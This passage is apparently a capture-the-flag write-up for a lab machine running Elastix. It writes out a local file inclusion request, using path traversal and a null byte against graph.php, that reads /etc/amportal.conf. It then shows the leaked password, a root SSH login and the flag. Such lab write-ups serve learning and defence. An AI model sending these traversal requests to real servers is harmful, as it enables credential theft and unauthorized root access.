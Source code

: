 This time, we can take advantage of the vulnerability "<a href="https://www.exploit-db.com/exploits/37637">Elastix 2.2.0 - 'graph.php' Local File Inclusion</a>".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-03-03/2020-03-01-23-18-10.png)

According to this page, by accessing the following HTTP request, we can exploit the LFI of Elastix.
{% highlight shell %}
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-03-03/2020-03-01-22-59-39.png)

If we grep the word "password", we can find an interesting parameter.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-03-03/2020-03-01-22-59-08.png)

Now we got the following password.
{% highlight shell %}
jEhdIekWmdjE
{% endhighlight %}

This time, we can use this password for connecting to SSH.<br>
As always, we have "root.txt" in the directory "/root".
{% highlight shell %}
root@kali:~# ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Sun Mar  1 19:45:39 2020 from 10.10.14.27

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# cat /root/root.txt 
d88e006123842106982acce0aaf453f0

[root@beep ~]#
{% endhighlight %}
